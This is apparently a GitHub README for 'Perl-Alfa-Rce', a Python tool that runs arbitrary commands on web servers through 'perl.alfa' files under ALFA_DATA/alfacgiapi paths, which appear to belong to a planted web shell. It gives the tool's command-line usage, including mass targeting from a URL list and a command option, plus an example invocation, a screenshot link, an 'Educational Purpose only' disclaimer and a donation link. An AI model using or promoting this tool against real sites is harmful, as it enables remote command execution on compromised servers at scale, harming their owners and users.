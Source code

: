 # Perl-Alfa-Rce

## About tools
This tools only working for filename `perl.alfa` but doesn't all it's work and this tools can mass targets also single target . I hope you all enjoy it :)

## Usage

```
usage: exploit.py [-h] [-u URL] [-m targets.txt] -c COMMAND

PERL ALFA RCE

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     Single URL to scan
  -m targets.txt, --multiple targets.txt
                        File containing multiple URLs to scan
  -c COMMAND, --command COMMAND
                        Command to execute
```

## PoC

![image](https://github.com/0xWhoami35/Perl-Alfa-Rce/assets/107396843/94b051cf-40e4-48f9-93a4-718de1bccd6b)


## Example Usage:

`python3 exploit.py -u https://example.com/ALFA_DATA/alfacgiapi/perl.alfa`

## Disclaimer

Educational Purpose only !!

## Donation
https://www.buymeacoffee.com/ardian0917s
